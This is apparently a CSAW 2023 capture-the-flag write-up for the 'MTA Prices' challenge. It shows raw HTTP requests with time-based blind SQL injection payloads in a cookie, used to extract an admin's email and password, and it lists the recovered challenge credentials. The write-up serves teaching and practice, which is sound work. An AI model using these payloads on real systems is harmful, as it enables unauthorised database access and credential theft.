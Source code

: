 # CSAW 2023

# MTA Prices

> Time-based SQli
> 

## How to identify

You can leverage the trackID in the cookie to manipulate the content of the **session,** which the server sends to us in the response header:

Also, if we modify the trackID to an unintended one, the value of the email field in the **session** will be "**Error**".

Importantly, this is a point where we can manipulate user input to get anomalies.

![Untitled](CSAW%202023%203c061646845f4714ac760b5451fe928d/Untitled.png)

![Untitled](CSAW%202023%203c061646845f4714ac760b5451fe928d/Untitled%201.png)

## Proof of Concept

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBk'+sleep(5)+'O4Fp2KuGsB;
Connection: keep-alive
```

The email showing no error means the SQL commands have been successfully executed.

![Untitled](CSAW%202023%203c061646845f4714ac760b5451fe928d/Untitled%202.png)

## Exploitation

Replace the ARG1 and ARG2 with your dictionaries… or check it out here.

> ARG1: numbers from 1 to 20
ARG2: all the printable characters: ASCII 32 - 126

**Get admin’s email:**

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBkO4Fp2KuGsB'+(SELECT IF((select SUBSTRING(email,${ARG1},1) from users where privilege LIKE 'admin%' limit 0,1)=binary('${ARG2}'),SLEEP(10),'a'))+';
Connection: keep-alive
```

**Get admin’s password:**

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBkO4Fp2KuGsB'+(SELECT IF((select SUBSTRING(password,${ARG1},1) from users where email='emily.brown@mta.com' limit 0,1)=binary('${ARG2}'),SLEEP(1),'a'))+';
Connection: keep-alive

```

![Untitled](CSAW%202023%203c061646845f4714ac760b5451fe928d/Untitled%203.png)

```php
mail - > emily.brown@mta.com
password -> p#2r@5ml8q7v!9x$1
```

![Untitled](CSAW%202023%203c061646845f4714ac760b5451fe928d/Untitled%204.png)

# Reference

[https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection.md#extract-database-with-information_schema](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#extract-database-with-information_schema)

[https://superboy-zjc.github.io/2020/08/05/阶段四、Web渗透测试/7、SQL注入/#二、SQL注入的注入点](https://superboy-zjc.github.io/2020/08/05/%E9%98%B6%E6%AE%B5%E5%9B%9B%E3%80%81Web%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/7%E3%80%81SQL%E6%B3%A8%E5%85%A5/#%E4%BA%8C%E3%80%81SQL%E6%B3%A8%E5%85%A5%E7%9A%84%E6%B3%A8%E5%85%A5%E7%82%B9)